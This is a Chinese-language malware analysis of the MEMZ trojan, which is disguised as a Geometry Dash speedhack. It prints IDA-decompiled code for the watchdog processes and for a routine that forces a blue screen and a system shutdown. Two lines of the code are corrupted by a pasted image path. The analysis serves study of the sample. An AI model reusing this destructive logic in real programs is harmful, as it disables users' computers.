

## 实验工具

实验平台：Hello-CTF-OS

实验工具：IDA Pro

病毒样本名称：geometry dash auto speedhack.exe

MD5：19dbec50735b5f2a72d4199c4e184960

SHA1：6fed7732f7cb6f59743795b2ab154a3676f4c822

## 实验步骤

### 运行病毒样本

1. 打开任务管理器，观察进程情况。


2. 运行病毒样本，观察进程情况。

略

### 逆向分析

#### 定位

1. 查一下文件信息


2. 打开 IDA Pro，导入病毒样本。

3. 定位到 start 函数，查看伪代码。



#### start 函数分析

```c
dword_405184 = GetSystemMetrics(0); // 获取屏幕宽度
dword_405188 = GetSystemMetrics(1); // 获取屏幕高度
CommandLineW = GetCommandLineW(); // 获取命令行内容
v1 = CommandLineToArgvW(CommandLineW, &pNumArgs);// 把 CommandLineW 转化成一个参数数组，包括命令行所有参数
if ( pNumArgs > 1 ) // v1 指向该函数，用于访问命令行参数
//...其他代码...
```

> 变量说明：
> v1 参数数组，可以访问命令行所有参数
> pNumArgs 参数个数

根据 pNumArgs 和 v1 的内容可以把 start 函数分为三个部分：

1. watchdog 部分

2. main 部分

3. 无参数部分

双击运行病毒样本，首先运行的是无参数部分

#### 无参数部分分析

```c
// 前面的代码
if (MessageBoxA(
        0,
        "The software you just executed is considered malware.\r\n"
        "This malware will harm your computer and makes it unusable.\r\n"
        "If you are seeing this message without knowing what you just executed, simply press No and nothing will happen."
        "\r\n"
        "If you know what this malware does and are using a safe environment to test, press Yes to start it.\r\n"
        "\r\n"
        "DO YOU WANT TO EXECUTE THIS MALWARE, RESULTING IN AN UNUSABLE MACHINE?",
        "MEMZ",
        0x34u) == 6 &&
    MessageBoxA(
        0,
        "THIS IS THE LAST WARNING!\r\n"
        "\r\n"
        "THE CREATOR IS NOT RESPONSIBLE FOR ANY DAMAGE MADE USING THIS MALWARE!\r\n"
        "STILL EXECUTE IT?",
        "MEMZ",
        0x34u) == 6)
// 后面的代码
```

很明显这是两次弹窗的内容

Message BoxA 是 Windows API 中的一个函数，用来弹出一个对话框。如果用户点击“是”，返回值 6

代码继续执行的内容如下

```c
{
    v10 = (WCHAR *)LocalAlloc(0x40u, 0x4000u);
    GetModuleFileNameW(0, v10, 0x2000u);
    v11 = 5;
    do
    {
      ShellExecuteW(0, 0, v10, L"/watchdog", 0, 10);
      --v11;
    }
    while ( v11 );
    pExecInfo.cbSize = 60;
    pExecInfo.lpFile = v10;
    pExecInfo.lpParameters = L"/main";
    pExecInfo.fMask = 64;
    pExecInfo.hwnd = 0;
    pExecInfo.lpVerb = 0;
    pExecInfo.lpDirectory = 0;
    pExecInfo.hInstApp = 0;
    pExecInfo.nShow = 10;
    ShellExecuteExW(&pExecInfo);
    SetPriorityClass(pExecInfo.hProcess, 0x80u);
  }
```

创建了 5 个命令行参数为 `/watchdog` 的进程，和 1 个命令行参数为 `/main` 的进程。在病毒文件执行的时候可以看到这 6 个进程。

到此无参数部分分析完毕。

#### watchdog 部分分析

函数名是看门狗？

```c
if ( !lstrcmpW(v1[1], L"/watchdog") )
    {
      CreateThread(0, 0, sub_40114A, 0, 0, 0);
      pExecInfo.lpVerb = (LPCWSTR)48;
      pExecInfo.lpParameters = (LPCWSTR)sub_401000;
      pExecInfo.hIcon = (HANDLE)"hax";
      pExecInfo.lpFile = 0;
      memset(&pExecInfo.lpDirectory, 0, 28);
      pExecInfo.hProcess = 0;
      RegisterClassExA((const WNDCLASSEXA *)&pExecInfo.lpVerb);
      CreateWindowExA(0, "hax", 0, 0, 0, 0, 100, 100, 0, 0, 0, 0);
      while ( GetMessageW(&Msg, 0, 0, 0) > 0 )
      {
        TranslateMessage(&Msg);
        DispatchMessageW(&Msg);
      }
    }
```

创建了一个线程，并在线程中调用了 `sub_40114A` 函数。还出现了`sub_401000` 函数

##### sub_40114A 函数分析

跟进函数看看里面发生了什么

```c
void __stdcall __noreturn sub_40114A(LPVOID lpThreadParameter)
{
    HANDLE CurrentProcess;     // eax
    HANDLE Toolhelp32Snapshot; // edi
    const CHAR *v3;            // ebx
    int v4;                    // esi
    PROCESSENTRY32W pe;        // [esp+Ch] [ebp-23Ch] BYREF
    LPCSTR lpString1;          // [esp+238h] [ebp-10h]
    int v7;                    // [esp+23Ch] [ebp-Ch]
    LPCSTR lpString2;          // [esp+240h] [ebp-8h]
    HANDLE hObject;            // [esp+244h] [ebp-4h]

    v7 = 0;
    lpString1 = (LPCSTR)LocalAlloc(0x40u, 0x200u);
    CurrentProcess = GetCurrentProcess();
    GetProcess../img/CyberSecurity/5-cat/imageFileNameA(CurrentProcess, lpString1, 512);
    Sleep(0x3E8u);
    while (1) // 死循环
    {
        Toolhelp32Snapshot = CreateToolhelp32Snapshot(2u, 0); // 获取进程快照
        pe.dwSize = 556;
        Process32FirstW(Toolhelp32Snapshot, &pe);
        v3 = lpString1;
        v4 = 0;
        do // 遍历进程列表
        {
            hObject = OpenProcess(0x400u, 0, pe.th32ProcessID);
            lpString2 = (LPCSTR)LocalAlloc(0x40u, 0x200u);
            GetProcess../img/CyberSecurity/5-cat/imageFileNameA(hObject, lpString2, 512);
            if (!lstrcmpA(v3, lpString2)) // 如果进程名相同,v4+1
                ++v4;
            CloseHandle(hObject);
            LocalFree((HLOCAL)lpString2);
        } while (Process32NextW(Toolhelp32Snapshot, &pe));
        CloseHandle(Toolhelp32Snapshot);
        if (v4 < v7) // 如果进程数v4<v7,执行`sub_401021`函数
            sub_401021();
        v7 = v4;
        Sleep(0xAu);
    }
}
```

首先是一个 while(1)死循环，首先获取系统快照，然后遍历快照每一个进程，比较进程名字是否相同，如果相同，v4+1。如果 v4<v7，则调用`sub_401021`函数。

> 总的来说，这个函数是用来监控系统进程的变化，可以检测无参数部分开启的进程是否被关闭。如果检测到少于 6 个进程，则调用`sub_401021`函数。

##### sub_401021 函数分析

继续看看`sub_401021`函数

```c
BOOL __usercall sub_401021 @<eax>(int a1 @<ebp>)
{
    int v1;                                                             // esi
    int v2;                                                             // esi
    HMODULE LibraryA;                                                   // edi
    FARPROC RtlAdjustPrivilege;                                         // ebx
    FARPROC NtRaiseHardError;                                           // eax
    void(__cdecl * v6)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD, _DWORD); // esi
    HANDLE CurrentProcess;                                              // eax
    int v9;                                                             // [esp-20h] [ebp-28h]
    struct _TOKEN_PRIVILEGES v10;                                       // [esp-18h] [ebp-20h] BYREF
    int v11;                                                            // [esp-8h] [ebp-10h] BYREF
    HANDLE v12;                                                         // [esp-4h] [ebp-Ch] BYREF
    int v13;                                                            // [esp+0h] [ebp-8h] BYREF
    int v14;                                                            // [esp+4h] [ebp-4h]

    v1 = 20;
    do // 循环创建20个进程，随机出现在屏幕任意位置
    {
        CreateThread(0, 0x1000u, StartAddress, 0, 0, 0);
        Sleep(0x64u);
        --v1;
    } while (v1);
    v2 = v14;
    v14 = a1;
    v9 = v2;
    LibraryA = LoadLibraryA("ntdll");
    RtlAdjustPrivilege = GetProcAddress(LibraryA, "RtlAdjustPrivilege");
    NtRaiseHardError = GetProcAddress(LibraryA, "NtRaiseHardError");
    v6 = (void(__cdecl *)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD, _DWORD))NtRaiseHardError;
    if (RtlAdjustPrivilege && NtRaiseHardError)                               //触发蓝屏
    {
        ((void(__cdecl *)(int, int, _DWORD, char *, int, int))RtlAdjustPrivilege)(19, 1, 0, (char *)&v13 + 3, v13, v9);
        v6(-1073741790, 0, 0, 0, 6, &v11);
    }
    CurrentProcess = GetCurrentProcess();
    OpenProcessToken(CurrentProcess, 0x28u, &v12);
    LookupPrivilegeValueW(0, L"SeShutdownPrivilege", &v10.Privileges[0].Luid);
    v10.PrivilegeCount = 1;
    v10.Privileges[0].Attributes = 2;
    AdjustTokenPrivileges(v12, 0, &v10, 0, 0, 0);
    return ExitWindowsEx(6u, 0x10007u);                                 // 关闭系统，退出Windows，关机/重启
}
```

1. 创建 20 个进程，随机出现在屏幕任意位置

2. 使用`RtlAdjustPrivilege`函数提升权限，调用`NtRaiseHardError`函数触发蓝屏

3. 使用`SeShutdownPrivilege`权限关闭系统，退出 Windows，关机/重启，所以在此处调用`sub_401021`函数，监控系统中 6 个进程是否被关闭，如果被关闭，则关闭系统，退出 Windows，关机/重启。

#### sub_401000 函数分析

```c
LRESULT __stdcall sub_401000(HWND a1, UINT a2, WPARAM a3, LPARAM a4)
{
  int savedregs; // [esp+0h] [ebp+0h] BYREF

  if ( a2 != 16 && a2 != 22 )    //只处理16或22的消息
    return DefWindowProcW(a1, a2, a3, a4);
  sub_401021((int)&savedregs);
  return 0;
}
```

没写完，抽空继续，我先跑个病毒玩玩。